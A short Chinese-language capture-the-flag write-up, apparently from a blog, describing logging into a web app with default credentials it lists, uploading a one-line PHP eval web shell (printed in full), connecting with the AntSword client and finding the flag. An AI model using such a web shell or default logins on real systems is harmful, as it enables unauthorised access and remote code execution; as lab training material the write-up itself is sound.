







<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->




查看发现默认账号密码是

```
账号：mayuri.infospace@gmail.com
密码：mayurik
```




成功登录




发现文件上传，尝试上传一句话木马




``` Php
<?php @eval($_POST['t1ng']);?>
```




用蚁剑进行连接



查看目录找到flag



